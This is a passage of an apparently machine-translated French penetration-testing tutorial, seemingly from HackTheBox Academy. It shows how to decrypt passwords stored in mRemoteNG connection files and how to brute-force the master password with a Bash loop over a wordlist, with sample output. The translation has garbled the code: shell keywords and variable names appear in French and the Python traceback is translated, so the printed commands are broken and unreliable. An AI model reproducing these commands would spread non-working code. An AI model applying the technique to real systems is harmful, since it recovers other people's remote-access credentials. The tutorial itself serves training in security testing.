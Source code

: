
Si nous tentons de déchiffrer l'attribut `Password` du nœud `RDP_Domain`, nous obtiendrons l'erreur suivante.

#### Tentative de déchiffrement du mot de passe avec un mot de passe personnalisé

Essayez to Décrypter le mot de passe avec un mot de passe personnalisé

```
dsgsec@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (dernier appel le plus récent) :
   Fichier "/home/plaintext/htb/academy/mremoteng_decrypt.py", ligne 49, dans <module>
     principal()
   Fichier "/home/plaintext/htb/academy/mremoteng_decrypt.py", ligne 45, dans main
     texte en clair = cipher.decrypt_and_verify (texte chiffré, balise)
   Fichier "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", ligne 567, dans decrypt_and_verify
     self.verify(received_mac_tag)
   Fichier "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", ligne 508, en vérification
     lever ValueError("La vérification MAC a échoué")
ValueError : Échec de la vérification MAC

```

Si nous utilisons le mot de passe personnalisé, nous pouvons le déchiffrer.

#### Décryptez le mot de passe avec mremoteng_decrypt et un mot de passe personnalisé

Décryptez le mot de passe avec mremoteng_decrypt et un mot de passe personnalisé

```
dsgsec@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA ==" -p

Mot de passe : ASDki230kasd09fk233aDA

```

Au cas où nous voudrions essayer de casser le mot de passe, nous pouvons modifier le script pour essayer plusieurs mots de passe à partir d'un fichier, ou nous pouvons créer une "boucle for" Bash. Nous pouvons tenter de déchiffrer l'attribut `Protected` ou le `Password` lui-même. Si nous essayons de déchiffrer l'attribut `Protected` une fois que nous avons trouvé le mot de passe correct, le résultat sera `Password : ThisIsProtected`. Si nous essayons de déchiffrer le `Password` directement, le résultat sera `Password : <PASSWORD>`.

#### For Loop pour déchiffrer le mot de passe principal avec mremoteng_decrypt

For Loop pour cracker le mot de passe principal avec mremoteng_decrypt

```
dsgsec@htb[/htb]$ pour le mot de passe dans $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $mot de passe 2>/dev/null;done

Printemps 2017
Printemps 2016
administrateur
Mot de passe : ASDki230kasd09fk233aDA
administrateur administrateur
administrateurs

<SNIP>

```